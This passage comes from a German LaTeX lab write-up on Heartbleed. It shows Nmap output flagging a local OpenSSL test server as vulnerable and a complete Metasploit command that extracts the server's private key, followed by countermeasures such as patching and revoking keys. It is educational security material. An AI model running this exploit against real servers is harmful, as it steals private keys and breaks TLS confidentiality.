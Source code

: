 Nach Abschluss des Scans wird folgender Hinweis ausgegeben. Der Server ist aus Sicht des Angreifers für Heartbleed verwundbar.

\begin{lstlisting}[caption={Nmap Ausgabe zu verwundbaren SSL-Dienst},label=lst:nmap_heartbleed]
PORT     STATE SERVICE  REASON         VERSION
8989/tcp open  ssl/http syn-ack ttl 64 OpenSSL s_server -www httpd (command line: s_server -key private_key.pem -cert certificate.pem -accept 8989 -www)
| ssl-heartbleed:
|   VULNERABLE:
|   The Heartbleed Bug is a serious vulnerability in the popular OpenSSL cryptographic software library. It allows for stealing information intended to be protected by SSL/TLS encryption.
|     State: VULNERABLE
|     Risk factor: High
\end{lstlisting}

Nun wird versucht, mittels Metasploit den Private Key des Servers auszulesen. Üblicherweise wird Metasploit als selbstständige Konsole gestartet, auf welcher einzelne Befehle zur Konfiguration des Angriffs nacheinander eingegeben werden. Diese Befehle werden stattdessen hier mit  direkt als Parameter angegeben.

\begin{lstlisting}[caption={Metasploit-Plugin zum Angriff auf den OpenSSL-Server},label=lst:metasploit_heartbleed]
msfconsole -x '
	# Lade das Heartbleed-Plugin
	use auxiliary/scanner/ssl/openssl_heartbleed;
	# Setze den Modus auf Gewinnung des Private Keys
	set action KEYS;
	# IP des Zielservers
	set RHOSTS 127.0.0.1;
	# Port des SSL-Dienstes
	set RPORT 8989;
	# erweitere Ausgabe
	set verbose true;
	# Starte den Exploit
	exploit;
	# Beende Metasploit
	exit;
'
\end{lstlisting}


Nach Start der Metasploit-Konsole -- was einige Zeit in Anspruch nehmen kann -- wird der OpenSSL-Server automatisiert angegriffen und bei Erfolg der Private Key auf der Konsole ausgegeben. Dieser sollte identisch zum zuvor vom Opfer erzeugten Private Key sein, der in dessen Konsole ausgegeben worden ist.

\section{Gegenmaßnahmen}
Veraltete OpenSSL-Bibliotheken sollten aktualisiert werden. Sicher vor Heartbleed ist OpenSSL ab Version 1.0.1g, aktuell ist die Version 1.0.2n\footnote{Stand Januar 2018}. Zudem sollten alle privaten Schlüssel des Servers als kompromittiert betrachtet, widerrufen\footnote{Stichwort Certificate Revocation List} und ersetzt werden.




